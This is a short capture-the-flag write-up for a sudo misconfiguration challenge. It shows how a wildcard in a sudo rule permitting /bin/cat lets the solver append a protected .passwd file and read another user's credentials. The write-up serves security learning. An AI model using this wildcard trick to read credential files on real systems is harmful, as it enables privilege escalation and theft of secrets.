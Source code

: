 # Weak Configuration

## Reads
[sudo you are doing it wrong](https://repository.root-me.org/Administration/Unix/EN%20-%20sudo%20you%20are%20doing%20it%20wrong.pdf?_gl=1*1faer7q*_ga*MjgyMTQwNTMzLjE2NTI5MTc4MjU.*_ga_SRYSKX09J7*MTY1MjkyMjcyOC40LjAuMTY1MjkyMjczNy4w)

## Statement
Wishing to simplify the task by not modifying rights, the administrator has not thought about the side effects ...

## Solution
Looking at the results from `sudo -l`
```
Matching Defaults entries for app-script-ch1 on challenge02:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass, !mail_no_host, !mail_no_perms, !mail_no_user

User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/notes/*
```

We can run /bin/cat as app-script-ch1-cracked on any file in /challenge/app-script/ch1/notes/\*. At first I thought about creating my own "cat" application and overwriting PATH. However, everything here is given an absolute path. 

Luckily, there is a wildcard at the end of the file. So I cat cat all files in /challenge/app-script/ch1/notes/* and all other system files. Kind of like
```bash
sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/* /challenge/app-script/ch1/ch1cracked/.passwd
```
